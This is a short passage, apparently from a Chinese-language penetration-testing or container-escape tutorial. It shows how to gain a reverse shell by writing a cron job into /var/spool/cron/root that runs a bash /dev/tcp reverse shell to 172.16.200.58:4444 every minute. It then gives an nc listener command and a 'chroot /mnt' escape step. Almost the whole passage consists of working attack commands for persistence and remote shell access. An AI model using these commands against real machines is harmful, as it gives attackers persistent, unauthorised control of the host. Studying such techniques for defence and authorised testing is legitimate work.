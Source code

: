 写入 crontab 来反弹获取 shell，执行如下命令，将反弹 shell 的命令写入 /var/spool/cron/root 文件中：

```
echo "*/1  *  *  *  *   /bin/bash -i>&/dev/tcp/172.16.200.58/4444 0>&1" > root
```

nc 监听接收反弹 shell：

```
$ nc -lvp 4444
```

#### chroot 逃逸

```
chroot /mnt
```
